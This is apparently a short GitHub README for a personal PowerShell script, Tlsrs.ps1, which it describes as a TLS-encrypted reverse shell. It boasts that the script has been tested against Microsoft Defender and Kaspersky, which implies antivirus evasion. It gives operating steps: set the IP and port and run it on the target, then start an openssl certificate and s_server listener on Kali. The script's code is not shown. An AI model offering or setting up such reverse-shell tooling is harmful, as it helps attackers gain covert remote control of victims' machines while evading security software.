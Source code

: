 # Powershell Scripts by me ;)
#####################################################################################

Tlsrs.ps1 : This is a PowerShell ReverseShell that uses TLS to establish a TCP connection.
By now, this script has been tested on Microsoft Defender and Kaspersky ;)

On Target:

just change the IP and Port and run it in Powershell

On Kali:

openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4443

######################################################################################



